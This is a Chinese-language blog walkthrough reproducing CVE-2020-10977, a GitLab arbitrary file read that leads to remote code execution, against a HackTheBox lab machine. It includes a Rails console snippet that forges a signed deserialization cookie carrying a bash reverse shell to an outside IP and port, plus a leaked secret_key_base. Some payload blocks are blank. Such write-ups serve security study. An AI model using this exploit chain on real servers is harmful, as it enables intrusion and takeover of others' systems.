





# CVE-2020-10977_GitLab 任意文件读取导致 RCE 漏洞复现 - websec80 - 博客园

> 原文：[`www.cnblogs.com/websec80/p/17749170.html`](https://www.cnblogs.com/websec80/p/17749170.html)

CVE-2020-10977_GitLab 任意文件读取导致 RCE 漏洞复现

## 0x01 环境安装

|  
```
1 
```

 |  
```
yum -y install policycoreutils openssh-server openssh-clients postfix 
```

 |

分配给虚拟机的物理内存最好是 4G。

下载 gitlab 安装包

*   CE 下载地址：[`packages.gitlab.com/gitlab/gitlab-ce`](https://packages.gitlab.com/gitlab/gitlab-ce)

*   EE 下载地址：[`packages.gitlab.com/gitlab/gitlab-ee`](https://packages.gitlab.com/gitlab/gitlab-ee)

安装

|  
```
1 
```

 |  
```
yum -y install ./gitlab......12_8.1.rpm 
```

 |

修改监听端口

|  
```
1
2
3 
```

 |  
```
vim /etc/gitlab/gitlab.rb
 external_url 'http://localhost:8888' 
```

 |

重置和重启

|  
```
1
2
3 
```

 |  
```
gitlab-ctl reconfigure
 gitlab-ctl restart 
```

 |

第一次进入会提示重置 root 密码

## 0x02 任意文件读取漏洞复现

创建两个项目（test1 和 test2




在 test1 中新建一个 issue。

内容为

|  
```
1 
```

 |  
```
 
```

 |



创建好后，将这个 issue 移动到 test2。



如果漏洞存在，并且文件有可读权限，就会变成一个链接。因为/etc/passwd 被复制到了 `/var/opt/gitlab/gitlab-rails/uploads/@hashed/4e/07/4e07408562bedb8b60ce05c1decfe3ad16b72230967de01f640b7e4729b49fce/ed7e8cddbc49e3746e0b9974b5393d79/passwd`


## 0x03 RCE 漏洞复现

根据报告[Hackone-Arbitrary file read via the UploadsRewriter when moving and issue](https://hackerone.com/reports/827052)内容，需要修改 cookie，并且读取目标机器上的 secret.yaml，并在本地搭建一个 gitlab，将本地的 gitlab 环境的 secret.yaml 替换为目标机器上的 secret.yaml，然后用 gitlab 的工具来生成 cookie，最后携带这段 cookie 直接请求目标 gitlab 环境即可。

这里我受害机环境使用的是 HackTheBox 靶机[Laboratory](https://www.hackthebox.eu/home/machines/profile/298)

步骤 1 利用 LFI 漏洞先读取 secrets.yaml，来获取 secret_key_base 字段。

|  
```
1 
```

 |  
```
 
```

 |




需要将本地的 gitlab 的 secrets.yaml 的 secret_key_base 字段替换为受害机的。

|  
```
1 
```

 |  
```
secret_key_base: 3231f54b33e0c1ce998113c083528460153b19542a70173b4458a21e845ffa33cc45ca7486fc8ebb6b2727cc02feea4c3adbe2cc7b65003510e4031e164137b3 
```

 |


替换好之后，进入到 radis console

依次输入以下内容，在获取到 cookie 之前，这些命令会在本机执行一次，所以在拿到 cookie 之后再监听端口。

|  
```
1
2
3
4
5
6
7
8
9
10
11
12 
```

 |  
```
request = ActionDispatch::Request.new(Rails.application.env_config)
 request.env["action_dispatch.cookies_serializer"] = :marshal
 cookies = request.cookie_jar
 erb = ERB.new("<%= `bash -c 'bash -i >& /dev/tcp/10.248.245.171/9999 0>&1'` %>")
 depr = ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy.new(erb, :result, "@result", ActiveSupport::Deprecation.new)
 cookies.signed[:cookie] = depr
puts cookies[:cookie] 
```

 |




## 参考

*   [Hackone-Arbitrary file read via the UploadsRewriter when moving and issue](https://hackerone.com/reports/827052)
*   [CVE-2020-10977-Gitlab CE/EE 任意文件读取导致远程命令执行漏洞](https://juejin.cn/post/6916343939649765389)